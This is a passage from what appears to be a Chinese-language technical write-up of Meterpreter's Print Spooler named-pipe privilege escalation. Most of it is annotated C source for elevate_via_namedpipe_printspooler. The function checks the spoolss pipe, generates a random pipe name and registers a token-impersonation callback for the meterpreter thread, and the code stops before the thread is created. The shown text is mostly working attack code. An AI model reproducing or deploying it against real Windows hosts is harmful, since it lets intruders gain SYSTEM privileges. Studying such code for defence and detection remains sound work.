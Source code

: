 下面是带有注释的完整代码解释，可以看到核心变化就在打印机上，其他并没有变化：

```plain
DWORD elevate_via_namedpipe_printspooler(Remote* remote, Packet* packet)
{
    DWORD dwResult = ERROR_SUCCESS;
    THREAD* pThread = NULL;
    HANDLE hSem = NULL;
    char cPipeName1[MAX_PATH] = { 0 };
    WCHAR cPipeName2[MAX_PATH] = { 0 };
    DWORD dwPipeUid[2] = { 0, 0 };
    OSVERSIONINFOEXW os = { 0 };
    HMODULE hNtdll = NULL;
    PRtlGetVersion pRtlGetVersion = NULL;
    PRIV_POST_IMPERSONATION PostImpersonation;

    do {
        // 1. 检查命名管道是否存在
        if (!does_pipe_exist(L"\\\\.\\pipe\\spoolss")) {
            BREAK_ON_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler: \\pipe\\spoolss is not listening.");
        }

        // 2. 获取 Ntdll 模块和系统版本信息
        hNtdll = GetModuleHandleA("ntdll");
        if (hNtdll == NULL) {
            BREAK_ON_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler: Failed to resolve RtlGetVersion");
        }

        pRtlGetVersion = (PRtlGetVersion)GetProcAddress(hNtdll, "RtlGetVersion");
        if (pRtlGetVersion == NULL) {
            BREAK_ON_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler: Failed to resolve RtlGetVersion");
        }

        os.dwOSVersionInfoSize = sizeof(OSVERSIONINFOEXW);

        if (pRtlGetVersion(&os)) {
            BREAK_ON_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler: RtlGetVersion failed");
        }

        // 3. 检查系统版本是否支持
        if (os.dwMajorVersion < 6 || (os.dwMajorVersion == 6 && os.dwMinorVersion < 3)) {
            SetLastError(ERROR_CALL_NOT_IMPLEMENTED);
            BREAK_ON_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler: Windows version not supported.")
        }

        // 4. 生成随机命名管道名
        dwPipeUid[0] = ((rand() << 16) | rand());
        dwPipeUid[1] = ((rand() << 16) | rand());

        _snprintf_s(cPipeName1, sizeof(cPipeName1), MAX_PATH, "\\\\.\\pipe\\%08x%08x\\pipe\\spoolss", dwPipeUid[0], dwPipeUid[1]);
        _snwprintf_s(cPipeName2, sizeof(cPipeName2), MAX_PATH, L"%08x%08x", dwPipeUid[0], dwPipeUid[1]);

        // 5. 创建信号量（Semaphore）
        hSem = CreateSemaphore(NULL, 0, 1, NULL);
        PostImpersonation.pCallback = set_meterp_thread_use_current_token;
        PostImpersonation.pCallbackParam = remote;

        // 6. 创建线程并运行
```